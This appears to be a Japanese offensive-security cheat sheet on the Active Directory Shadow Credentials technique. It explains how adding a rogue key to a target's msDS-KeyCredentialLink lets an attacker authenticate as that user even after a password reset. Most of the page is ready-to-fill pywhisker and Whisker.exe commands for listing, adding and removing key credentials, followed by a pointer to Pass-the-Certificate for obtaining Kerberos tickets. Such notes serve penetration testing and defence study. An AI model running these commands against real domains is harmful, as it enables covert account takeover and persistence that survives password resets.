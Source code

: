 # Shadow Credentials

Shadow Credentials とは攻撃者が Active Directoryアカウントに挿入して、変更されたアカウントへのアクセスを取得または維持する資格情報です。これらは、多くの場合、ターゲットユーザーまたはコンピューターの `msDS-KeyCredentialLink` 属性に不正な証明書またはキーを追加することに関連しています。これにより、パスワードがリセットされた場合でも、そのユーザーとして認証できます。

`msDS-KeyCredentialLink` 属性とはパスワードなしの認証のための生の暗号データを保存して、ユーザーまたはコンピュータオブジェクトにリンクする Active Directory 属性です。

Shadow Credentialsを悪用するには [pywhisker](https://github.com/ShutdownRepo/pywhisker.git) を使用します。

# Abuse

## Linux

現在のすべての `KeyCredential ID`と作成時刻を一覧出力する

```
pywhisker -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" --target "<TargetUser>" --action "list"
```

`KeyCredential` 構造に含まれるすべての情報を出力する

```
pywhisker -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" --target "<TargetUser>" --action "info" --device-id <device_id>
```

`msDs-KeyCredentialLink` に新しいKeyCredentialを追加する

```
pywhisker -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" --target "<TargetUser>" --action "add" 
```

`msDs-KeyCredentialLink` から KeyCredential を削除する

```
pywhisker -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" --target "<TargetUser>" --action "remove" --device-id <device_id>
```

## Windows

```
Whisker.exe add /target:<TargetUser> /domain:<FQDN_DOMAIN> /dc:<DC_DOMAIN> /path:<cert.pfx> /password:pfx-password
```

# Pass-The-Certificate

公開キーがターゲットの `msDs-KeyCredentialLink` に設定されている場合、生成された証明書を [Pass-the-Certificate](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Pass%20The%20Certificate.md) で使用して TGT を取得し、さらにアクセスすることができます。